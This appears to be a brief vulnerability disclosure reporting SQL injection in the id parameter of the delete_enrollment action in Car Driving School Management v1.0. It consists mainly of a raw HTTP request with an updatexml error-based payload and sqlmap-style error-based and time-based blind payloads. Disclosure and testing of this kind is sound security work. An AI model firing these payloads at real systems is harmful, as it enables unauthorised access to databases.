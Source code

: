 # The parameter on Car Driving School Management v1.0


```sql
POST /cdsms/classes/Master.php?f=delete_enrollment HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cdsms/admin/?page=enrollees
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=af11d32584nvu0nvjbakb00q8h
Connection: close

id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/159834499-c5a75a37-d93a-4d91-9d00-9d435851c8a6.png)
[+]Payload：
```sql
---
Parameter: id (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(5169,CONCAT(0x5c,0x7171626271,(SELECT (ELT(5169=5169,1))),0x71627a6a71))-- Teqs

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9304 FROM (SELECT(SLEEP(5)))gvle)-- cytZ
---
```



参考这个格式：https://github.com/nu11secur1ty/CVE-mitre/tree/main/2022/CVE-2022-24571

